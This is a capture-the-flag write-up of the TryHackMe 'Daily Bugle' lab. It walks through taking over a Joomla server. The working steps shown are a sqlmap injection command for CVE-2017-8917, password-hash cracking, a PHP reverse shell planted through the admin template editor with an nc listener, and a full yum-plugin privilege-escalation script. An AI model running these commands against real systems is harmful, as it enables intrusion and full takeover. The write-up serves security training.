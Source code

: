 # Summary
We'll compromise a Joomla CMS account via SQL injection. Crack a Blowfish hash and escalate our privileges by taking advantage of yum. It's labeled as hard so let's find out how far we can get.

# Recon
As always we'll start with a port scan on the target:
```
sudo nmap -sV -p- -Pn -oN nmap.txt -O 10.10.5.229 
```
The scan shows multiple open ports:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/1.png">

# Enumeration
There's an Apache webserver running on port 80. After browsing to the website we are welcomed by a CMS. Wappalyzer tells us that it's running Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/2.png">

I tried SQL injection on the login form, but without any luck.
Let's run joomscan on the target to get more information on Joomla.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/3.png">


We immediately spot that the version is outdated. 
It also returned the content of robots.txt which shows multiple directories.

A quick Google search tells us that this Joomla version is vulnerable to SQL injection.

> CVE-2017-8917 https://www.exploit-db.com/exploits/42033

Let's fire up sqlmap in an attempt to abuse this vulnerability and extract data from the MySQL database.
```
sqlmap -u "http://10.10.5.229/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

# Hash
Sqlmap took ages and in the meantime I searched for more exploits. I found Joomblah which extracts credentials from the database.

> Joomblah https://github.com/stefanlucas/Exploit-Joomla

This resulted in a username and a hash:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/4.png">

Running hashid on the hash tells us that it's probably a Blowfish algorithm:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/5.png">

You can look up which module you have to use at https://hashcat.net/wiki/doku.php?id=example_hashes.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/6.png">
```
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt  
```


Impatient as I am I also start john to crack the hash. Let's see who's faster on this algorithm.
```
john --wordlist=/usr/share/seclists/Passwords/rockyou.txt hash
```
John won and we can now login at the administrator panel of Joomla which we found earlier during enumeration.

# Initial Foothold
I found an article explaining how we can get a reverse shell from the administrator panel

> Article: https://www.hackingarticles.in/joomla-reverse-shell/

Basically we edit an existing page by replacing it's code with a PHP reverse shell. We will use the script from Pentestmonkey.

> php-reverse-shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/7.png">

We change the IP and port and start our netcat listener:
```
rlwrap nc -nlvp 4444
```
> Use rlwrap so you can use the arrow keys without problems.

After we browse to the page we'll get a low privilege shell on the host.
```
http://10.10.5.229/templates/beez3/index.php
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/8.png">

After searching around a but we find a configuration file in /var/www/html/
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/9.png">

We can now try to login at the database but it seems that our IP address is blocked for access.

# Privilege escalation
Searching for users we find ```jjameson```. He's using the same password as root so we can now switch to his account.

```
su jjameson
```

Running ```sudo -l``` tells us we can run /usr/bin/yum as sudo.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/10.png">

A quick search on GTFOBins teaches us we can abuse yum to escalate our privileges:
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
And we have a root shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Daily%20Bugle/assets/11.png">


# Conclusion
Although it's labeled as hard it didn't felt that way. I didn't really got stuck as the process was pretty clear from the start.












